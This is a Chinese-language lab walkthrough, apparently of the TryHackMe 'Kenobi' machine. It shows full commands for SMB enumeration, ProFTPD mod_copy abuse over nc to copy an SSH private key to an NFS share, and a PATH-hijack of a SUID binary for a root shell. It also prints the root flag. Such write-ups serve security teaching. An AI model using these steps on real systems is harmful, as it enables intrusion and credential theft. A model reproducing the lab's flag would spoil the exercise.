

目标：10.48.142.181，拿到flag
# Recon:
==`nmap -Pn -sV -O --script=vuln -v 10.48.142.181`==
扫描结果如下：
首先看nse的扫描结果，尝试的已有漏洞都没有成功，意味着需要转变思路。
`Host script results:`
`|_smb-vuln-ms10-054: false`
`|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: ERROR: Server returned less data than it was supposed to (one or more fields are missing); aborting [9]`
`|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: ERROR: Server returned less data than it was supposed to (one or more fields are missing); aborting [9]`
我们接下来观察开放的端口，有几个端口很有意思：
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
2049/tcp open  nfs         3-4 (RPC #100003)

首先我们来看port139和port445，这两个端口都运行的是samba服务，版本为smbd 4，这是一种共享文件的服务，遵循SMB协议，使得windows和linux，unix系统的电脑能协同工作，也就是说，这个端口下面有个共享文件，可能隐藏更多信息，我们可以使用nse的枚举脚本来进行进一步观察：

==`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.48.142.181`==
`Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-07 01:11 +0800`
`Nmap scan report for 10.48.142.181`
`Host is up (0.46s latency).`

`PORT    STATE SERVICE`
`445/tcp open  microsoft-ds`

`Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds`

但是nse脚本的运行结果不尽人意，这种情况时有发生，我们手动使用smbclient这个工具进行连接：
 ==`smbclient -L //10.48.142.181/`==   
`Password for [WORKGROUP\sm]:`

        `Sharename       Type      Comment`
        `---------       ----      -------`
        `print$          Disk      Printer Drivers`
        `anonymous       Disk`      
        `IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))`
`Reconnecting with SMB1 for workgroup listing.`
`smbXcli_negprot_smb1_done: No compatible protocol selected by server.`
`Protocol negotiation to server 10.48.142.181 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE`
`Unable to connect with SMB1 -- no workgroup available`

这下就可以看到共享的文件列表了，其中最重要的，也是我们匿名可以访问的，就是这个anonymous文件夹，我们连进去看看具体内容：
==`smbclient //10.48.142.181/anonymous`==
`Password for [WORKGROUP\sm]:`
`Try "help" to get a list of possible commands.`
`smb: \> ls`
  `.                                   D        0  Wed Sep  4 18:49:09 2019`
  `..                                  D        0  Sat Aug  9 21:03:22 2025`
  `log.txt                             N    12237  Wed Sep  4 18:49:09 2019`
`9183416 blocks of size 1024. 2992660 blocks available`

log.txt这个文件非常显眼，我们使用==`get`==把它下载到本地看看里面到底有什么信息：
内容非常多，其中最重要的：
`Generating public/private rsa key pair.`
`Enter file in which to save the key (/home/kenobi/.ssh/id_rsa):` 
`Created directory '/home/kenobi/.ssh'.`
`Enter passphrase (empty for no passphrase):` 
`Enter same passphrase again:` 
`Your identification has been saved in /home/kenobi/.ssh/id_rsa.`
`Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.`
`The key fingerprint is:`
`SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi`

可以看到rsa生成的私钥放在`/home/kenobi/.ssh/id_rsa`，公钥放在`/home/kenobi/.ssh/id_rsa.pub`。这是非常重要的文件，如果我们能拿到私钥文件，我们就可以通过ssh以正常用户的身份直接远程登录到目标设备，那我们如何拿到这个文件呢，需要把它转移到我们能copy到本地的地方，那我首先想的就是能否把这个文件copy到smb服务的匿名共享文件夹，也就是我们刚刚看到的anonymous下面，那么如何实现呢？
我们来观察port21，运行的是ftp服务，用于文件传输，使用的是是proftpd 1.3.5这个软件，这个软件有一个module，使SITE CPFR，SITE CPTO可以操作目标电脑的文件，所以可以移动我们目标的`/home/kenobi/.ssh/id_rsa`。我们可以使用==`searchsploit`==来看看具体的内容：
`└─➤ searchsploit ProFtpd 1.3.5`         
 `Exploit Title                                                     |  Path`
`ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)          | linux/remote/37262.rb`
`ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                | linux/remote/36803.py`
`ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)            | linux/remote/49908.py`
`ProFTPd 1.3.5 - File Copy                                          | linux/remote/36742.txt`
`------------------------------------------------------------------- ---------------------------------`
`Shellcodes: No Results`
                                                                                                     
`┌──[💀 TYLER]─[~/tryhackme/kenobi]`
`└─➤ searchsploit -x 36742`     
  `Exploit: ProFTPd 1.3.5 - File Copy`
      `URL: https://www.exploit-db.com/exploits/36742`
     `Path: /usr/share/exploitdb/exploits/linux/remote/36742.txt`
    `Codes: CVE-2015-3306, OSVDB-120834`
 `Verified: True`
`File Type: ASCII text`
# Access:
现在我们尝试使用这个exploit来进行操作：
首先nc到目标机器，为什么要用nc而不用ftp，因为正规使用ftp的话，会要求身份验证，在验证成功之前无法进行任何命令输入。但这个exploit的精髓就在于ProFtpd 1.3.5在身份验证之前就会处理CITE CPFR这种命令，所以我们使用nc这种最原始的信息通道，他只管把信息送过去：
==`nc 10.48.142.181 21`==         
`220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.48.142.181]`
==`SITE CPFR /home/kenobi/.ssh/id_rsa`==
`350 File or directory exists, ready for destination name`
==`SITE CPTO \anonymous`==
`550 CPTO: Permission denied`
意料之中的失败，因为smb对共享的文件都有严格要求，可能对每个文件都设置了index，所以直接从外部copy一个进去很难，接下来我们继续观察端口就可以看到另外两个：
111/tcp  open  rpcbind     2-4 (RPC #100000)
2049/tcp open  nfs         3-4 (RPC #100003)
port2049上运行的是nfs服务--network file system，相当与直接把磁盘的一部分映射到了网上，是一种虚拟储存，他下辖的许多服务会衍生出许多临时端口，这个时候就需要port111，他就像一个指路员一样把你指导正确的对应端口，所以如果我们想枚举nfs映射出来的文件，直接枚举port2049是不行的，所以我们枚举port111，这样就可以看到所有映射的部分：
`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.48.142.181`
`Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-07 02:17 +0800`
`Nmap scan report for 10.48.142.181`
`Host is up (0.20s latency).`
`PORT    STATE SERVICE`
`111/tcp open  rpcbind`
`| nfs-showmount:` 
`|_  /var *`
`| nfs-ls: Volume /var`
`|   access: Read Lookup NoModify NoExtend NoDelete NoExecute`
`| PERMISSION  UID  GID  SIZE  TIME                 FILENAME`
`| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .`
`| ??????????  ?    ?    ?     ?                    ..`
`| rwxr-xr-x   0    0    4096  2026-01-06T16:48:22  backups`
`| rwxr-xr-x   0    0    4096  2025-08-10T06:48:58  cache`
`| rwxrwxrwx   0    0    4096  2019-09-04T08:43:56  crash`
`| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local`
`| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock`
`| rwxrwxr-x   0    108  4096  2026-01-06T16:42:47  log`
`| rwxr-xr-x   0    0    4096  2025-08-09T13:38:21  snap`
`| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www`
`|_`
`| nfs-statfs:` 
`|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink`
`|_  /var        9183416.0  5700168.0  2992652.0  66%   16.0T        32000`
`Nmap done: 1 IP address (1 host up) scanned in 4.78 seconds`
可以看到目标机器把整个/var目录都挂载出来了，我们需要找一个我们有权限可以copy进去的文件夹，我们可以把他们挂在到本地慢慢观察：
==`sudo mount -t nfs 10.48.142.181:/var ~/tryhackme/kenobi/kenobi_var`==
==`ls -la kenobi_var`==       
`total 56`
`drwxr-xr-x 14 root root  4096 Sep  4  2019 .`
`drwxrwxr-x  3 sm   sm    4096 Jan  7 02:25 ..`
`drwxr-xr-x  2 root root  4096 Jan  7 00:48 backups`
`drwxr-xr-x 15 root root  4096 Aug 10 14:48 cache`
`drwxrwxrwt  2 root root  4096 Sep  4  2019 crash`
`drwxr-xr-x 51 root root  4096 Aug 10 14:48 lib`
`drwxrwsr-x  2 root staff 4096 Apr 13  2016 local`
`lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock`
`drwxrwxr-x 13 root _ssh  4096 Jan  7 00:42 log`
`drwxrwsr-x  2 root mail  4096 Feb 27  2019 mail`
`drwxr-xr-x  2 root root  4096 Feb 27  2019 opt`
`lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run`
`drwxr-xr-x  5 root root  4096 Aug  9 21:38 snap`
`drwxr-xr-x  5 root root  4096 Sep  4  2019 spool`
`drwxrwxrwt  8 root root  4096 Jan  7 00:49 tmp`
`drwxr-xr-x  3 root root  4096 Sep  4  2019 www`
其实有好几个dir都可以写入，比如tmp，比如lock，当然最好的选择就是tmp，不过我们两个都试试：
`SITE CPFR /home/kenobi/.ssh/id_rsa`
`350 File or directory exists, ready for destination name`
`SITE CPTO /var/tmp/id_rsa`
`250 Copy successful`
tmp成功了，lock失败。我们现在把它复制到本地并且结束挂载：
==`cp kenobi_var/tmp/id_rsa id_rsa`==
==`sudo umount ./kenobi_var`== 
==`ls`==                             
`id_rsa  kenobi_var  log.txt`
我们先给私钥文件该权限，不然ssh是不会认可这个文件的：
==`sudo chmod 600 id_rsa`== 
这样只有文件所有者可以阅读和修改这个私钥，这样ssh服务才会信任这个私钥，接下来我们直接以正规身份通过ssh直接空降到kenobi！
==`ssh -i id_rsa kenobi@10.48.142.181`==
...
`kenobi@kenobi:~$ whoami`
`kenobi`

# Escalation:
在提全方面，我们继续沿用寻找带有suid的二进制文件的思路。（一般来说，一个文件的权限和运行者相同，但带有suid的文件在运行时是所有者文件，一般是root，也就是说，这些二进制文件是天然的创建root的tunnel）
我们运行命令查找根目录下所有带suid的二进制文件：
`find / -perm -u=s -type f 2>/dev/null`
`/snap/core20/2599/usr/bin/chfn`
`/snap/core20/2599/usr/bin/chsh`
`/snap/core20/2599/usr/bin/gpasswd`
`/snap/core20/2599/usr/bin/mount`
`/snap/core20/2599/usr/bin/newgrp`
`/snap/core20/2599/usr/bin/passwd`
`/snap/core20/2599/usr/bin/su`
`/snap/core20/2599/usr/bin/sudo`
`/snap/core20/2599/usr/bin/umount`
`/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper`
`/snap/core20/2599/usr/lib/openssh/ssh-keysign`
`/sbin/mount.nfs`
`/usr/lib/policykit-1/polkit-agent-helper-1`
`/usr/lib/dbus-1.0/dbus-daemon-launch-helper`
`/usr/lib/snapd/snap-confine`
`/usr/lib/eject/dmcrypt-get-device`
`/usr/lib/openssh/ssh-keysign`
`/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic`
`/usr/bin/chfn`
`/usr/bin/newgidmap`
`/usr/bin/pkexec`
`/usr/bin/passwd`
`/usr/bin/newuidmap`
`/usr/bin/gpasswd`
`/usr/bin/menu`
`/usr/bin/sudo`
`/usr/bin/chsh`
`/usr/bin/at`
`/usr/bin/newgrp`
`/bin/umount`
`/bin/fusermount`
`/bin/mount`
`/bin/su`
可以看到结果大部分都是系统自带的二进制文件，不过有一个stand out：`/usr/bin/menu`，这不是一个系统自带的文件，大概率是管理员为了方便配置自己写的，我们可以进去看看这个二进制文件到底在干嘛：
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Tue, 06 Jan 2026 18:55:25 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html

可以看到menu的第一个功能是类似curl的输出，我们可以使用一些方法看看menu这个二进制文件到底写了些什么东西，是怎么写的：
==`strings /usr/bin/menu`==
这是最简单的方法，提取二进制文件中的字符串，在繁多的输出中可以看到我们想要的：
`curl -I localhost`
这就是我们想要的入口，正确方法是使用绝对路径/usr/bin/curl，如果是直接使用curl，会有一个寻找/usr/bin/curl的过程，这个时候如果我们创建另一个二进制文件也叫curl，并且把它的路径指定为优先寻找，那么在当menu运行curl的时候就会执行我们的脚本，因为menu本身带有suid权限，所以我们直接让他打开一个/bin/sh，我们就可以直接拿到一个root shell！
==`cd /tmp`==
==`echo "/bin/sh" > curl`==
==`chmod +x curl`==
接下来非常关键，我们需要修改环境变量PATH：
==`export PATH=/tmp:$PATH`==
- **`export`**: 这是一个内置命令，用于将一个 **Shell Variable**（Shell 变量）提升为 **Environment Variable**（环境变量）。如果没有 `export`，你对 `PATH` 的修改只能影响当前的进程；加上 `export` 后，当前 Shell 启动的所有 **Sub-processes**（子进程，比如之后运行的 `/usr/bin/menu`）都会继承这个修改。
- **`PATH`**: 这是 Linux 系统中最关键的环境变量。它是一个由冒号分隔的目录列表，告诉系统：“当用户输入一个不带路径的命令（如 `curl`）时，按顺序去这些目录里找可执行文件”。
- **`/tmp:$PATH`**:
    - **`/tmp`**: 我们希望系统首先查看的目录。
    - **`:`**: 分隔符。
    - **`$PATH`**: 引用原有的 `PATH` 变量内容。
    - **整体含义**：把 `/tmp` 放在最前面，然后接上原来的路径。这叫 **Path Prepending**（路径前置）。
这个时候我们再运行menu并选择服务1就可以拿到root了：
`# whomai`
`root`
然后拿旗：
`# cat /root/root.txt`
`177b3cd8562289f37382721c28381f02`

最后补充集中查看二进制文件内容的方法：
==`ltrace`== 查看文件运行过程中调用了哪些参数
==`strace -f /usr/bin/menu 2>&1 | grep execve`== 记录所有的system call
==`objdump -d /usr/bin/menu`== 把机器码转为汇编再进行阅读，寻找call指令，看看它在调用哪些函数

# 总结：
要想打入一个机器，不一定非要寻找单一的漏洞，根据我们所有accessible的信息来规划进入道路：smb共享文件获得id_rsa的位置，使用ProFtpd 1.3.5的漏洞把id_rsacopy到nfs挂载的/var/tmp下。当然，最精彩的部分还是在escalation，利用管理员的疏忽，我们拦截了命令，并让他指向我们的要求文件。
punchline：
**"The root cause was a combination of service misconfiguration and a vulnerable legacy module, demonstrating that security is only as strong as its weakest link."** （根源在于服务误配置和有漏洞的过时模块的组合，证明了安全性仅取决于其最薄弱的一环。）

